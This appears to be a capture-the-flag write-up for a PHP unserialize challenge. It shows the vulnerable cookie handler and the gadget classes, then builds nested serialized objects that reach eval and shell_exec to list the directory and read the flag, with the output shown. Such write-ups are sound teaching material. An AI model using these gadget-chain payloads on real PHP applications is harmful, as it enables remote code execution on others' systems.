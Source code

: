 # Un Secure

### Text: Do you know what "unserialize" means? In PHP, unserialize is something that can be very dangerous, you know? It can cause Remote Code Execution. And if it's combined with an autoloader like in Composer, it can use gadgets in the autoloaded folder to achieve Remote Code Execution.

&nbsp;

Score: 100

&nbsp;

Included Files: [dist.zip](dist.zip)

---
 ## Writeup

In this challenge you are given a php server which you have to exploit to read out the contents of the flag. You are provided with a Dockerfile.

Dockerfile
```dockerfile
# copy all host file in cwd to container cwd
COPY . .

# move flag to root directory with random name
RUN mv flag.txt $(cat /dev/urandom | head -c 32 | hex).txt

```

When the server starts the flag is copied into the base directory under a random name. Since the server is only started once, this means that the name of the file will never change over the course of the challenge. The first step is to find the name of this file.
This can be done by exploiting some of the classes that come with challenge.

index.php
```php
require("vendor/autoload.php");

if (isset($_COOKIE['cookie'])) {
    $cookie = base64_decode($_COOKIE['cookie']);

    $t = unserialize($cookie);

}
```

In index.php a cookie provided by the user is directly input into the unserialize() function. This is a dangerous method which can be exploited if the user has uncontrolled access to the input. By inputting custom information, the user can create/modify any class or data. Luckly for us, the challenge provided three custom classes in which we can exploit.

class Vuln
```php
class Vuln
    {
        public $waf1;
        protected $waf2;
        private $waf3;
        public $cmd;
        function __toString()
        {
            if (!($this->waf1 === 1)) {
                die("not x");
            }
            if (!($this->waf2 === "\xde\xad\xbe\xef")) {
                die("not y");
            }
            if (!($this->waf3) === false) {
                die("not z");
            }

            eval($this->cmd);

        }
    }
```

Class Adders
```php
class Adders
    {
        private $x;
        function __construct($x)
        {
            $this->x = $x;

            var_dump($x);
        }
        function get_x()
        {
            return $this->x;
        }
    }
```

Class Echoers
```php
class Echoers
    {
        protected $klass;
        function __destruct()
        {
            echo $this->klass->get_x();
        }
    }
```

It can be seen in class Vuln that a command will be executed in the shell. All we have to do is create a Vuln object with a command to list out the current directory and find the flag file. The question is how can we create an instance of this class. We can use the unserialize function in index.php to unserialize a Vuln object. By setting the cookie to our serialized object, we can inject an object into the server.


Serialized Vuln object.
```php
O:16:"GadgetThree\Vuln":4:{s:4:"waf1";i:1;s:4:"waf2";s:4:"Þ­¾ï";s:4:"waf3";b:0;s:3:"cmd";s:26:"var_dump(shell_exec('ls'))";}
```

Using the serialized Vuln object above, we can create a Vuln object. Great. Except of course we have to call the __toString() method. Unfortunately we cannot call this directly via the unserialize() method. Now we have to utilize the other classes. Fortunately both of these classes contain magic methods which will automatically be called. For instance, the __construct() method on the Adder class will be called whenever the instance of the class is created, and the __destruct() method on the Echoers class will be called whenever an instance of this class is destroyed. By inputting a serialized class of Echoers, the __destruct() method will be called, executing the code inside. Since, object serializiation supports objects inside of objects, we can serialize an Echoers object with an Adder class as the $klass parameter. This means when the Echoer is destroyed, the Adder object will call the get_x() method. Now in the Adder class we must input a serialized Vuln() class as the $x parameter so that its __toString() method will be called. By correctly nesting the serialized classes we can finally get the Vuln() method to execute out command.

Full Nested Serialized Objects to list out directory contents
```php
O:17:"GadgetTwo\Echoers":1:{s:5:"klass";O:16:"GadgetOne\Adders":1:{s:1:"x";O:16:"GadgetThree\Vuln":4:{s:4:"waf1";i:1;s:4:"waf2";s:4:"Þ­¾ï";s:4:"waf3";b:0;s:3:"cmd";s:28:"var_dump(shell_exec('ls'));";}}}
```

By dumping the return of the shell command we will receive all of the files listed in the current directory including the name of the flag file. Now all we have to do is change the shell command to print out the contents of the flag.

Output of shell command to list out directory
```php
string(90) "182939124819238912571292389218129123.txt
composer.json
composer.lock
index.php
src
vendor
"
```

Full Nested Serialized Objects to print out flag file
```php
O:17:"GadgetTwo\Echoers":1:{s:5:"klass";O:16:"GadgetOne\Adders":1:{s:1:"x";O:16:"GadgetThree\Vuln":4:{s:4:"waf1";i:1;s:4:"waf2";s:4:"Þ­¾ï";s:4:"waf3";b:0;s:3:"cmd";s:69:"var_dump(shell_exec('cat 182939124819238912571292389218129123.txt'));";}}}
```

Output of shell command to read flag
```php
string(44) "TCP1P{unserialize in php go brrrrrrrr ouch}
```
"

## Flag: TCP1P{unserialize in php go brrrrrrrr ouch}